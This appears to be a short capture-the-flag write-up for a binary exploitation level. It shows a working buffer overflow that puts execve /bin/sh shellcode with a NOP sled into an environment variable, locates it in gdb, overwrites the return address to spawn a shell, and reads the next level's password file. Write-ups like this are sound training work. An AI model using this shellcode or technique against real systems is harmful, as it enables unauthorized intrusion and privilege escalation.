 For this one, we can use `eip` register, so we will set a environment variable with a shellcode, we create our environment variable :
```bash
export EXPLOIT=$(python -c "print '\x90' * 300 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'")
```

Now, we need to find what is the env adress of `EXPLOIT` in `gdb` :
```bash
x/1000x $esp - 1000
0xbffff8e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff8f0:	0x90909090	0x90909090	0x31909090	0x31db31c0
```
 
We have the end adress of `EXPLOIT` which filled by `x90` representing `nop` instructions in asm.
We just need to add the padding, set IEP on main return and place our shellcode stored in our environment variable :
```bash
(python -c "print '\x90' * 80 + '\x3e\x85\x04\x08' + '\x04\xf8\xff\xbf'" ; cat) | ./level2
????????????????????????????????????????????????????????????????>????????????>???
whoami
level3
cd .. && cat level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
